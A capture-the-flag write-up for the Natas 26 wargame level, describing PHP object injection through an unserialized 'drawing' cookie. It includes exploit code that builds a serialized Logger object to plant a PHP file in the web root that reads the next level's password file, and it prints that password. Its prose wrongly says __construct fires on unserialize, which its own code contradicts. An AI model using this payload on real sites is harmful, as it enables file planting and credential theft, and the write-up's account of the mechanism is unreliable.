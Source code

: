 # Natas-26

Its an application for drawing a line by providing the initial and final coordinates .

Looking at the source code .

```php
<?php
    session_start();
    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
        $imgfile="img/natas26_" . session_id() .".png"; 
        drawImage($imgfile); 
        showImage($imgfile);
        storeData();
    }  
?>
```

After drawing the image and showing the image the function storeData() is called . 

```php
function storeData(){
        $new_object=array();
        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }   
        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }   
        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
```

all the input coordinates are stored in an array called $new_object . It checks then if there is a cookie by the name drawing else it creates an array called $drawing and adds the array $new_object to it . Then the $drawing gets serialized and stores it as a cookie .

And when we give the coordinates for another line. Since there is already a cookie called drawing .if (array_key_exists("drawing", $_COOKIE)) this condition would be satisfied so the cookie will be unserialized and the new coodrinates will be appended to this unserialized drawing array .

Since the cookies are being deserialised we can inject an object into it as one of the arrays and invoke a call to one of the magic functions in a class which has dangerous code .There is one such class called Logger()

```php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg; 
       function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }                       
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }                        
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }
```

 Logger() has a __construct function which will be invoked when unserialized is called and the injected object is initialised . the Loggers __construct function creates a file and writes content to it. So all we need to do is create a .php file and write a php code to read files so that we can get the password for natas 27 . So we need to inject a Logger object with $this→logFile=’img/pwned.php’ and

 $this→initMsg= ‘<?php file_get_contents(’/etc/natas_webpass/natas27’)?>’ .

Code to create the malicious cookie .

```php
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="flag\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "/var/www/natas/natas26/img/pass.php";
    }
}

$o = new Logger();
print base64_encode(serialize($o));

?>
```

```php
Username : natas27
Password : 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
```